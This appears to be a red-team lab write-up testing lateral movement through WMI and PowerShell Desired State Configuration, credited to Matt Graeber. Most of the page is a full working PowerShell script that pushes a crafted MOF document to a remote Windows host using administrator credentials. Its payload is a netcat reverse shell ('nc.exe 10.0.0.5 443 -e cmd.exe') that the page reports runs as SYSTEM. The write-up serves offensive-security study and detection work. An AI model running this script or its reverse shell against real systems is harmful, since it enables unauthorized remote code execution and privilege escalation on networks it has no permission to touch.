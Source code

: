 ```yaml
---
description: 'Lateral Movment, Privilege Escalation'
---
```


# WMI + PowerShell Desired State Configuration Lateral Movement

This lab is simply a test of the lateral movement technique desrcibed by Matt Graeber [here](https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06).

## Execution

Below is the powershell script that allows an attacker to execute code on a remote machine via WMI. Note that the payload is defined in the variable `TestScript` on line 7. In our case, the payload is a rudimentary nc reverse shell \(luckily, we know the victim has nc on their machine :\):

{% code title="dsc.ps1" %}
```csharp
# Credits to Matt Graeber. Code taken from https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06
$MOFContents = @'
instance of MSFT_ScriptResource as $MSFT_ScriptResource1ref
{
    ResourceID = "[Script]ScriptExample";
    GetScript = "\"$(Get-Date): I am being GET\"     | Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
    TestScript = "C:\\tools\\nc.exe 10.0.0.5 443 -e cmd.exe";
    SetScript = "\"$(Get-Date): I am being SET\"     | Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
    SourceInfo = "::3::5::Script";
    ModuleName = "PsDesiredStateConfiguration";
    ModuleVersion = "1.0";
    ConfigurationName = "ScriptTest";
};

instance of OMI_ConfigurationDocument
{
    Version="2.0.0";
    MinimumCompatibleVersion = "1.0.0";
    CompatibleVersionAdditionalProperties= {"Omi_BaseResource:ConfigurationName"};
    Author="TestUser";
    GenerationDate="02/26/2018 07:09:21";
    GenerationHost="TestHost";
    Name="ScriptTest";
};
'@

# Change this to false if you want to test the payload locally
$ExecuteRemotely = $True

$NormalizedMOFContents = [Text.Encoding]::UTF8.GetString([Text.Encoding]::ASCII.GetBytes($MOFContents))
$NormalizedMOFBytes = [Text.Encoding]::UTF8.GetBytes($NormalizedMOFContents)
$TotalSize = [BitConverter]::GetBytes($NormalizedMOFContents.Length + 4)

if ($ExecuteRemotely) {
    # Prepend the length of the payload
    [Byte[]] $MOFBytes = $TotalSize + $NormalizedMOFBytes
} else {
    # If executing locally, you do not prepend the payload length
    [Byte[]] $MOFBytes = $NormalizedMOFBytes
}


# Specify the credentials of your target
$Credential = Get-Credential -Credential "offense\administrator"
$ComputerName = 'ws02'

# Establish a remote WMI session with the target system
$RemoteCIMSession = New-CimSession -ComputerName $ComputerName -Credential $Credential

$LCMClass = Get-CimClass -Namespace root/Microsoft/Windows/DesiredStateConfiguration -ClassName MSFT_DSCLocalConfigurationManager -CimSession $RemoteCIMSession

if ($LCMClass -and $LCMClass.CimClassMethods['ResourceTest']) {
    # You may now proceed with lateral movement

    $MethodArgs = @{
        ModuleName       = 'PSDesiredStateConfiguration'
        ResourceType     = 'MSFT_ScriptResource'
        resourceProperty = $MOFBytes
    }

    $Arguments = @{
        Namespace  = 'root/Microsoft/Windows/DesiredStateConfiguration'
        ClassName  = 'MSFT_DSCLocalConfigurationManager'
        MethodName = 'ResourceTest'
        Arguments  = $MethodArgs
        CimSession = $RemoteCIMSession
    }

    # Invoke the DSC script resource Test method
    # Successful execution will be indicated by "InDesiredState" returning True and ReturnValue returning 0.
    Invoke-CimMethod @Arguments

} else {
    Write-Warning 'The DSC lateral movement method is not available on the remote system.'
}
```
{% endcode %}

The technique is captured in action in a gif below. On the left is the attacking system, on the right is the victim system and the window above the victim screen is another attacking system that is receiving the reverse shell:

![](../../.gitbook/assets/peek-2018-11-01-21-48.gif)

## Observations

Note the process ancestry and that our code was run with privileges of`NT AUTHORITY\SYSTEM`:

![](../../.gitbook/assets/screenshot-from-2018-11-01-22-00-51.png)

## References

{% embed url="https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06" caption="" %}

